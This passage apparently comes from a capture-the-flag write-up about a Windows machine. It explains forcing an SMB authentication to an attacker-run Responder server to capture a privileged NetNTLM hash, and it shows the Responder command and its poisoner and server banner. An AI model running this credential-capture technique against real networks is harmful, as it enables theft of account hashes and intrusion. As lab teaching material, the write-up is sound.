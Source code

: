 It is! Since this is a window computer we can trick it into initializing the SMB protocol by providing it with a random path to our local machine. During the initial SMB key exchange, we might be able to grab the NetNTLMv (hash) corresponding to a privileged account. We can utilize a tool called 'Responder' to set up an SMB server and grab what we need.

![](./attachments/Pasted%20image%2020220413140044.png)

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ sudo python3 Responder.py -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
```